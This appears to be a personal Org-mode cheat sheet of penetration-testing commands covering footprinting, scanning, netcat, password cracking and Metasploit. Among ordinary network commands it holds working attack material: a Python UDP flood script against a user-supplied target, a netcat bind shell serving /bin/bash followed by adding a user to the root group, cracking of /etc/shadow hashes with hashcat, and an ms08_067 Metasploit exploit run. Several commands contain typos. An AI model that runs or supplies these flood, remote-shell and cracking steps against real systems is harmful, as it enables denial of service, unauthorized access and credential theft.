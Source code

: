 #+HTML_HEAD: <link rel="stylesheet" type="text/css" href="css/main.css" />
* footpringint
** website footprinting
 - operating system used.
 - subdirectories and parameters
 - Filename, path, database field name, or query:You should analyze anything after the
   a  query that looks like a filename, path, database field name, or query carefully
   to check whether it offers opportunities for SQL injection
 - Scripting platform
 - Contact details and CMS details: The contact pages usually offer details such as names
   phone numbers, email addresses, and locations of admin or support people.

** view headers
 - Connection status and content-type
 - Accept-ranges
 - Last-Modified information
 - X-Powered-By information
 - Web server in use and its version

** examine cookies set by the server to determine the software
running and its behavior.

** Email footprinting
By using email tracking tools you can gather the following information about
the victim:

 - Geolocation
 - read duration
 - proxy detection
 - links : allows you to check whether the links sent to the recipient through email
   have been checked or not.
 - Operating System
 - Forward email : whether or not the email sent to you is forwarded to another person
   can be determined easily by using this tool.

* Kali linux prep
** install linux headers for kali

#+begin_src shell 
$ apt-cache search header | grep -i linux
#  look for the one ending in –kali-all-amd64
$ apt-get install linux-headers-4.4.0-kalli-all-amd64
#+end_src 

** install kali guest additions

#+begin_src shell 
$ cd /media/cdrom0
$ cp VBoxLinuxAdditions.run /root/Desktop
$ ./VBoxLinuxAdditions.run
#+end_src 

** use network managed mode

#+begin_src shell 
$ vim /etc/NetworkManager.conf
# change managed=false to managed=true
#+end_src 

** permit =Root= login for SSH

#+begin_src shell 
$ vim /etc/ssh/sshd_config
#  change line PermitRootLogin without-password
#  PermitRootLogin yes
#+end_src 

* google search operators
|            |                                                                                                |
|------------+------------------------------------------------------------------------------------------------|
| Operator   | Description intitle Looks for the search terms in the title                                    |
| allintitle | Looks for the search terms only in the title and nowhere else in the document                  |
| inurl      | Looks through the URL (the address) for the search terms                                       |
| allinurl   | Similar to allintitle     looks only in the URL for the search terms                           |
| filetype   | You provide the filetype and search terms. All results have that filetype.                     |
| allintext  | The search will not look at the URL and just in the text.                                      |
| site       | Narrow your search to a particular site. You have to provide the site as well as search terms. |
| link       | Searches for links to pages                                                                    |
| inanchor   | This search will look in anchor tags only                                                      |
| numrange   | Searches for a number                                                                          |
| daterange  | Results will be within a range of dates            as specified                                |
| author     | Searches Google Groups for a particular author. This only works in Google Groups.              |
| group      | Looks for a group name. This only works in Google Groups.                                      |
| insubject  | Searches subject lines in posts. This only works in Google Groups.                             |
| msgid      | Searches within a group for a message ID.                                                      |

http://www.googleguide.com
* whois & DNS
** query
#+begin_src shell
$ whois apress.com
$ whois -h whois.apnic.net <host>
# Looking up all the whois records that are maintained by the
# folks from Yahoo!. The following command shows how you do this:
$ whois –i mnt-by YAHOO-MNT
# filter ip addresses
$ whois –i mnt-by YAHOO-MNT | grep inetnum
$ whois –i mnt-by YAHOO-MNT | grep inetnum | awk –F\: '{ print $2 }'
#+end_src 

** whois query query handler

| whois.nic.ir    |
| whois.apnic.net |
| whois.arin.net  |

** MX record

Every domain will have at least one MX record. Knowing the hostname from the MX
record will tell you which system you need to interact with if you want to
perform penetration testing against the organization's receiving mail server
using the simple mail transfer protocol (SMTP) .

#+begin_src shell
# MX records
$ dig Mx apress.com
#using nslookup
$ nslookup
> set type=mx
> apress.com
#+end_src

** reverse DNS lookup
#+begin_src shell 
$ dig -x [IP address]
#+end_src 

* port scan 

#+begin_src shell 
# -p- scann all 65536 ports
$ sudo nmap -sS -p- 172.30.42.1
# udp port scan
$ sudo namp -sU
# operating system scan
$ sudo nmap -sS -O 172.30.42.1
# scan one port 
$ sudo nmap -sV -p 22,53 <ip>
# TCP full connection scan
$ nmap -sT -vvv -p 80 192.168.195.0/24
# SYN scan
$ nmap -sS -vvv -p 80 192.168.195.0/24
# ACK scan
$ nmap -sA -vvv -p80 192.168.195.0/24
# UDP scan
$ nmap -sU -vvv -p161 192.168.195.0/24
# combined UDP and TCP scan
$ nmap -sS -sU -vvv -p U:161,139 T:8080,21 192.168.195.0/24
# service detection
$ nmap -sS -vvv -Pn -sV<targetIP>
#+end_src 

** scanning default gateways
#+begin_src shell
for i in `seq 1 255`; do ping -c 1 192.168.$1.1 | tr \\n ' ' | awk '/1
received/ {print $2}'; done
#+end_src

* banner grabbing
use telnet for TCP and nc for UPD connections.

#+begin_src shell 
$ telnet <host> <port>
$ nc -u <host> <port>
#+end_src

* host discovery with =arping=
arping uses ARP requests and replies instead of ICMP packets.
#+begin_src shell 
$ arping [ip address]
# I've used the MAC address, but the IP address could also be used.
$ arping -v -c3 00:10:7b:66:f7:62
#+end_src 

* netcat
** port scan using =netcat= 

 #+begin_src shell 
 $ netcat -z -v domain.com 1-1000
 #ou can then use the -n flag to specify that you do not need to resolve the IP address using DNS:
 $ netcat -z -n -v 111.111.111.111 1-1000
 $ netcat -z -n -v 111.111.111.111 1-1000 2>&1 | grep succeeded
 # to randomized port scanning use -r switch
 $ nc –v –r –w 1 192.168.0.10 –z 1-1000
 # scanning a range of devices
 $ for i in {10..12}; do nc –vv –n –w 1 192.168.0.$i 21-25 –z; done
 #+end_src

** communicate through =netcat=

 On one machine, you can tell netcat to listen to a specific port for
 connections. We can do this by providing the -l parameter and choosing a port:

 #+begin_src shell 
 netcat -l 4444
 #+end_src

 This will tell netcat to listen for TCP connections on port 4444

 On a second server, we can connect to the first machine on the port number we
 choose. We do this the same way we've been establishing connections previously:

 #+begin_src shell 
 netcat domain.com 4444
 #+end_src 

 It will look as if nothing has happened. However, you can now send messages on
 either side of the connection and they will be seen on either end.
** =netcat= chat interface

 #+begin_src shell 
 $ nc -l -p 4444         # host ip 192.168.1.102
 $ nc 192.168.1.102 4444
 #+end_src 

** transfering data with =netcat=

 #+begin_src shell 
 # server +++ -w 30 wait for 30 seconds 
 $ nc –v –w 30 –p 31337 –l < secret.txt
 # client
 $ nc –v –w 2 192.168.0.10 31337 > secret.txt
 #+end_src 

** banner grabbing

 #+begin_src shell 
 $ nc 192.168.1.1 80
 #+end_src 

** Linux remote shell 

 to prepare the listener we will type the following command into the command
 line:

 #+begin_src shell 
 $ sudo nc –lp 31337 –e /bin/bash
 #Connecting to the target
 $ nc 192.168.0.11 31337
 # Adding a local user and placing into the root group
 $ useradd –g root bob
 #+end_src

** send receive syslog
#+begin_src shell
# How to send log message to remote server?
$ nc -w0 -u 192.168.1.1 514 <<< "logging from remote"
# listen for messages
$ nc -l -u 512
#+end_src 

* sample python flood scriptf


#+begin_src python
import socket
import random

sock=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes=random._urandom(1024)
ip=raw_input('Target IP:')
port=input('Port:')
sent=0

while 1:
	sock.sendto(bytes,(ip,port))
	print "Sent %s amount of packets to %s at port %s: " % (sent,ip, port)
	sent = sent + 1
#+end_src 

* Cracking Linux Password Hashes with Hashcat 
  
** Getting Hashcat 2.00

Hashcat updated to 3.00 and it won't run in a virtual machine anymore. The simplest solution is to use the old version.
In a Terminal window, execute these commands:
#+begin_src shell
cd
mkdir hash
cd hash
wget https://hashcat.net/files_legacy/hashcat-2.00.7z
7z e hashcat-2.00.7z
./hashcat-cli32.bin -V
#+end_src 

#+begin_src shell
# get the hash for a username
$ cat /etc/shadow

# Finding the salt value
# The $6$ value indicates a type 6 password hash (SHA-512).
# The characters after $6$, up to the next $,  are the SALT.
$ cat /etc/show
root:$6$QYVo1xui$JS7zZtJ857Ti5nKYjTAcVUKqe.87yZvUXgehw2irI5k.0NzhI8PLkga8pz3uR7b8V.lF9qpxZtACqIBNKM.yB0:17235:0:99999:7:::

# Hash algorithm?
# the hash algorithm is defined in the file /etc/login.defs.
$ grep -A 18 ENCRYPT_METHOD /etc/login.defs

# Making a Hash File
# add the hashed password to a file
# and remove the last part for the above hash value delete everything after the yB0
# and the username 

# make a wordlist
$ curl http://www.scovetta.com/download/500_passwords.txt > 500_passwords.txt
head 500_passwords.txt

# Cracking the Hash
$ ./hashcat-cli32.bin -m 1800 -a 0 -o found1.txt --remove crack1.hash 500_passwords.txt
$ cat found1.txt

# Unix type 6 password hashes (-m 1800)
# Using a dictionary attack (-a 0)
# Putting output in the file found1.txt
# Removing each hash as it is found
# Getting hashes from crack1.hash
# Using the dictionary 500_passwords.txt
#+end_src 

https://samsclass.info/123/proj10/p12-hashcat.htm

* metasploit
** init
   
#+begin_src shell 
$ service postgresql start
$ service metasploit start
$ msfconsole
msf > search ms08-067
msf > info exploit/windows/smb/ms08_067_netapi
msf > use windows/smb/ms08_067_netapi
msf > show options
# setting RHOST
msf > set RHOST 192.168.20.10
msf > exploit
#+end_src

* network
** netstat
#+begin_src shell

# routing table
$ netstat -rn
#+end_src

** lsof

#+begin_src shell
# internet connections
# unlike netstat lsof will not report connections that do not have open files.
$ lsof -i

# open files by process name
$ lsof -cemacs24

#open files by pid
$ lsof -p `pidof emacs24`

# specify and address (lsof)
# only files related to the address will be showed.
$ lsof -i@sloan.lander.edu


#+end_src

** ifconfig
#+begin_src shell
#show only interfaces that are UP
$ lsof -au
#+end_src

** ARP
If some machines on your network are reachable but others aren't, or
connectivity comes and goes, ARP problems may be the cause.

#+begin_src shell
# show arp cache table
$ arp -a
#+end_src

* smurf attack
In a Smurf Attack, ICMP ECHO_REQUEST packets are sent to the broadcast address
of a network. Depending on how hosts are configured on the network, some may
attempt to reply to the ECHO_REQUEST.

* useful resources
http://ftp.ntua.gr/mirror/technotronic/

